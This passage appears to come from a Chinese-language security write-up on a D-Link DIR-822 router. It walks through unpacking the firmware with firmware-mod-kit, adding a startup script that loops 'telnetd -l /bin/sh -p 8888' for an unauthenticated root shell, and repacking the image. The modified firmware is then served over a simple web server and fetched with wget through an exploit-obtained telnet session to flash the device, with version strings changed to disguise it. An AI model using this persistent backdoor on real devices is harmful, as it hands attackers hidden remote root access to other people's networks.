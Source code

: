 现在更新脚本有了，也能登录上去，可以制作新的固件添加自己的功能。<br>
推荐使用firmware-mod-kit框架，git地址：[https://github.com/rampageX/firmware-mod-kit](https://github.com/rampageX/firmware-mod-kit)

```
/firmware-mod-kit/extract-firmware.sh DIR822A1_FW103WWb03.bin
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0191ee1a30595ec4ba.png)

现在会在其目录下发现fmk目录，进入fmk/rootfs可以见到路由器的文件系统。进入etc/init0.d/会发现rcS文件，对固件的改动就在这里面。

[![](https://p5.ssl.qhimg.com/t0144eca6b23f3f2d4e.png)](https://p5.ssl.qhimg.com/t0144eca6b23f3f2d4e.png)

追加rcS文件/etc/init0.d/fir.sh，fir.sh为自己创建的脚本。

[![](https://p4.ssl.qhimg.com/t017be3f193264ef870.png)](https://p4.ssl.qhimg.com/t017be3f193264ef870.png)

下面为fir.sh脚本内容：

```
#!/bin/sh
min=1
while :
do
    telnetd -l /bin/sh -p 8888
    sleep 1h
    echo $min
done
```

返回fmk的同级目录，使用firmware-mod-kit/build-firmware.sh即可完成固件打包。

[![](https://p1.ssl.qhimg.com/t01c92547327a512f6a.png)](https://p1.ssl.qhimg.com/t01c92547327a512f6a.png)

python -m SimpleHTTPServer 8080搭建起一个简单的web服务。将改好的dlink.sh和固件放入web服务目录下。

使用漏洞利用登录到telnet，进入tmp目录使用wget请求dlink.sh.

[![](https://p5.ssl.qhimg.com/t01a704379afad4183d.png)](https://p5.ssl.qhimg.com/t01a704379afad4183d.png)

运行dlink.sh，固件刷新需要稍等几分钟。

[![](https://p2.ssl.qhimg.com/t0179787e26554ff3ea.png)](https://p2.ssl.qhimg.com/t0179787e26554ff3ea.png)

[![](https://p0.ssl.qhimg.com/t015816c8a2c32ed235.png)](https://p0.ssl.qhimg.com/t015816c8a2c32ed235.png)

看上去是更新成功了，使用nmap扫描一下，固件里面的时间和版本号根据需求搜索更改即可。

[![](https://p4.ssl.qhimg.com/t01263aeb451bc51977.png)](https://p4.ssl.qhimg.com/t01263aeb451bc51977.png)
